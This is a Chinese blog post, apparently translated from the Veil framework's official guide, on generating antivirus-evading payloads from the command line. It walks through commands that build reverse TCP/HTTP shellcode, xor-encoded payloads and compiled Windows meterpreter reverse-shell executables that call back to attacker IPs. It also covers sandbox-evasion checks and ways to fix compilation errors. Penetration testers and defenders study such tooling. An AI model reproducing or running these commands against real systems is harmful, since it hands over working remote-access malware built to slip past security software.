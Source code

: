 ```yaml
---
title: 绕过杀软之Veil3.0官方指南
categories:
- tools
tags:
- tools
---
```


本文翻译自[Veil官方文档](https://www.veil-framework.com/veil-command-line-usage/)


大部分Veil用户将利用Veil的交互式菜单生成shellcode和或Veil载荷。 但是，我猜测虽然只有少数用户会使用命令行选项，但他们使用的相当频繁。 因此，我想确保在Veil用户在想要通过script来使用时（或任何其他方式）存在命令行界面。 在Veil 3.0版本中，一些选项是相同的，但是该工具引入了更多的命令行选项，这就是我在本文中想要介绍的。

```
apt-get -y install veil-evasion          #下载veil-evasion组件
/usr/share/veil/config/setup.sh --force --silent    # "安静"的安装，不需要提示输入yes/no。安装需要很长时间，请耐心等待
veil     #输入veil即可进行该模块
```
# 1. Ordnance——军械库

我将在命令行中介绍如何在Veil中使用军械库，这应该非常简单。 如果你以前从未使用过军械库，那么该工具比msfvenom生成shellcode更加易用。

### 1.1 列出军械库的所有载荷
`veil -t Ordnance --list-payloads`

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26-11/6.PNG)

### 1.2 列出军械库的所有编码模块

`veil -t Ordnance --list-encoders`

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26-11/7.PNG)

### 1.3 生成反弹TCP载荷
`veil -t Ordnance --ordnance-payload rev_tcp --ip 192.168.1.20 --port 1234`

使用军械库模块，指定反弹的ip为192.168.1.20、端口为1234，生成反弹tcp载荷。

![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26-11/8.PNG)

### 1.4 生成反弹HTTP载荷
`veil -t Ordnance --ordnance-payload rev_http --ip 192.168.1.21 --port 1235 -e xor -b \\x13\\x98`

![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26-11/9.PNG)

使用军械库模块，指定反弹的ip为192.168.1.21、端口为1235，生成反弹http载荷。并且该命令还设置了xor编码、避免使用坏字符`\x13\x98`

# 2. Evasion——免杀
### 2.1 列出免杀模块的所有载荷

`veil -t Evasion --list-payloads`

![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26-11/10.PNG)

### 2.2 使用33免杀模块生成可执行文件

`veil -t Evasion -p 33 --ordnance-payload rev_tcp --ip 192.168.1.3 --port 8675 -o christest`

该命令会生成一个可执行的载荷。设置了免杀载荷编号为33。通过上一小节查询到`33) python/shellcode_inject/flat.py`，就可以指定`-p 33`。

使用的是军械库反弹tcp的载荷，设置反弹IP`192.168.1.3`和`8675`，设置生成的文件名为`christest`。要注意的是，该命令使用的是Ordnance军械库模块来生成shellcode。

### 2.3 使用41免杀模块生成可执行文件

`veil  -t Evasion -p 41 --msfvenom windows/meterpreter/reverse_tcp --ip 192.168.1.4 --port 8676 -o chris`

![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26-11/13.PNG)
使用指定ip和端口、免杀载荷为41，生成一个windows平台反弹meterpreter的载荷。和上一小节不同的是，使用的是msfvenom而不是军械库模块来生成shellcode。

生成的应用程序，可以使用`file var/lib/veil/output/compiled/chris.exe`进行查看。

### 2.4 使用34免杀模块生成可执行文件

`veil -t Evasion -p 34 --ordnance-payload rev_tcp --ip 192.168.1.5 --port 8677 -o chrisout -c hostname=thegrid processors=2`

该命令会生成一个可执行的载荷。设置了免杀载荷编号为34。使用军械库模块生成反弹tcp的shellcode，反弹连接的IP、端口如命令所示。生成的可执行程序名称为chrisout，并且执行了两项检查，载荷被设置为目标机器的主机名为thegrid，系统的进程至少是2个。

如果你只想检查主机名，就可以删除`processors=2`，内置这样的基本检查，当尝试枚举和绕过沙箱的时候很有用。

如果是使用python免杀模块，编号从25到36，那么编译的时候很可能出错。

![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26-11/12.PNG)

当出现错误，`ImportError: No module named 'past'`

可以使用以下命令，手动将py脚本编译为exe，生成的程序在build文件夹下。
```
wine pyinstaller /var/lib/veil/output/source/chrisout10.py
```
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26-11/11.PNG)

如果出现了上图的错误，可以安装`apt-get install winbind`

### 2.5 删除所有生成的载荷

`veil  --clean`

 如果您创建了多个有效负载，并且只想删除所有编译后的输出，源代码，处理程序文件和跟踪的哈希，请运行此命令，Veil将删除所有内容。

